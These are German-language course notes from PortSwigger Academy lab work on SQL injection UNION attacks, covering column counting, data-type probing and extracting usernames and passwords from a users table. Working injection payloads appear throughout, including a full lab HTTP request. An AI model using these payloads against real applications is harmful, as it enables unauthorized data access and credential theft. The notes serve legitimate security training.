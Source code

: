 ```yaml
---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/
---
```

## Was ist das
UNION Attack beschreibt das Szenario indem man versucht auf andere Tabellen, innerhalb einer definierten Abfrage für eine bestimmte Tabelle, zuzugreifen.
Außerdem haben UNION Abfragen zwei Bedingungen.
- Beide Tabellen müssen die gleiche Anzahl spalten zurückgeben bei der Abfrage
- Die Datentypen für die jeweiligen Spalten müssen auch kompatibel sein

Bevor man deswegen eine UNION Attack durchführen kann müssen wir uns erstmal foglende Fragen stellen.
- Wie viele Spalten werden von der originalen Query zurückgeliefert
- Welche Datentypen haben die Spalten

Aber wie man das aber umgehen kann.
- Fehlende Spalten mit NULL ergänzen
- Bei inkompatiblen Datentypen kann man ggf. den Wert casten


### Bestimmen der Anzahl benötigter Spalten

**Order By-Technik**
```sql
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 
...
```
- (das führende `'` schließt die bisher offene Zeichenkette im SQL; `--` kommentiert den Rest aus)
- Beobachte die Antworten: bis zum richtigen Index bleibt die Antwort „normal“. Sobald `ORDER BY k` größer ist als die Anzahl der Spalten, bekommst du entweder eine DB-Fehlermeldung (z. B. „ORDER BY position number 5 is out of range…“), eine generische Fehlerseite, keine Ergebnisse oder ein erkennbares Verhalten, das sich ändert.
- Wenn z. B. `ORDER BY 4` einen Fehler erzeugt, aber `ORDER BY 3` nicht, dann hat die Query **3** oder weniger Spalten — meistens bedeutet das: originale Spaltenanzahl = 3.

Manche Apps fangen DB-Errors ab und zeigen nichts. Dann musst du Unterschiede detektierbar machen (z. B. Response-Länge, HTTP-Status, spezifische HTML-Teile).
Beginne mit `ORDER BY 1` und erhöhe sequentiell; höre auf, wenn du eine Änderung siehst.


**UNION-SELECT-NULL-Technik (Meist genutzte Methode)**
Idee: Du hängst an die originale Abfrage ein `UNION SELECT ...` an und gibst in der injecten SELECT so viele `NULL`-Platzhalter an, bis die DB nichts mehr meckert. `NULL` passt in (fast) jeden Datentyp - darum nutzen wir es.

```sql
' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- 
...
```
- **Beispiel mit Anzahl NULLS != Anzahl tatsächlichen Columns**
![[UNION_ATTACK_DETERMINING_THE_NUMBER_OF_COLUMNS_ERROR.png]]
- **Beispiel mit Anzahl NULLS == Anzahl tatsächlichen Columns**
![[UNION_ATTACK_DETERMINING_THE_NUMBER_OF_COLUMNS_SUCCESS.png]]

### Finde Spalten mit nützlichen  Datentypen
Nachdem wir herausgefunden haben wie viele Spalten wir haben können wir die Datentypen vergleichen.
**String Datentypen**
```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
Anhand der Response können wir schauen wie die DB auf den Wert a reagiert.
`Conversion failed when converting the varchar value 'a' to data type int.`

-> Wenn Error-Antwort generisch ist wie zB `500 Internal Server Error` bekommen wir keine direkte Antwort um welchen Datentyp es sich handelt. Daher müssen wir einfach die Datentypen manuell testen im sinne von:
**Numerische Datentypen**
```sql
' UNION SELECT 123,NULL,NULL,NULL--
' UNION SELECT NULL,123,NULL,NULL--
' UNION SELECT NULL,NULL,123,NULL--
' UNION SELECT NULL,NULL,NULL,123--
```

## Database spezifischer Syntax
Jede Datenbank hat eine etwas andere Syntax. Unter der folgenden Seite lässt sich eine kleine Übersicht über die unterschiedlichen Syntax finden.
Besonders wichtig beim**finden von Spalten** und **Datentypen** brauchen wir am Ende ein **Comment-Syntax**. D.h wir müssen einfach bisschen rumprobieren und gucken was so funktioniert.


[SQL-Injection-Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


### Wie macht man sich UNION jetzt richtig zu nutze um damit interessante Daten abzufragen
Sobald wir **Anzahl Columns** und die dazugehörigen **Datentypen** herausgefunden haben, können wir Daten aus anderen Tabellen abfragen mit UNION.

z. B.
- In der Datenbank gibt es eine Tabelle `users` mit den Spalten `username` und `password`.
	Dann könnte man folgendes eingeben, um die Inhalte der `users`-Tabelle abzurufen:
	`' UNION SELECT username, password FROM users--`

### Mehrere Werte erhalten trotz einzelner Spalte
Manchmal kann es sein, dass nur eine einzige Spalte zurückgegeben wird. Um jetzt eben trotzdem alle Werte zu bekommen müssen wir die gesamten Werte als **Eine** Ausgabe darstellen.
z. B. mit:
`' UNION SELECT username || '~' || password FROM users--`

die Ausgabe sieht dann wie folgt aus.
```
administrator~s3cure
wiener~peter
carlos~montoya
```


## Lab: SQL injection UNION attack, retrieving multiple values in a single column

`' UNION SELECT NULL--` -> error
`' UNION SELECT NULL,NULL--` -> OK

`' UNION SELECT 'a',NULL--`->error
`' UNION SELECT 123,NULL--`->OK
`' UNION SELECT 123,'a'--`->OK
-> Spalte1 = Number, Spalte2 = String

Dann bauen wir eine UNION SELECT Abfrage entsprechend den Kriterien.
```
GET /filter?category=' UNION SELECT NULL, concat(username, '~', password) FROM users-- HTTP/2
```

### Querying the database type and version
Um SQL-Injection auszunutzen, ist es oft nötig, Informationen über die Datenbank zu bekommen. Dazu gehören:
- Der Typ und die Version der Datenbanksoftware.
- Welche Tabellen und Spalten die Datenbank enthält.


Das lässt sich mit folgenden Befehlen für beliebige Datenbanken testen:

| Datenbank         | Query                     |
| ----------------- | ------------------------- |
| Microsoft / MySQL | `SELECT @@version`        |
| Oracle            | `SELECT * FROM v$version` |
| PostgreSQL        | `SELECT version()`        |
![[UNION_ATTACK_WHAT_DATABASE_TYPE.png]]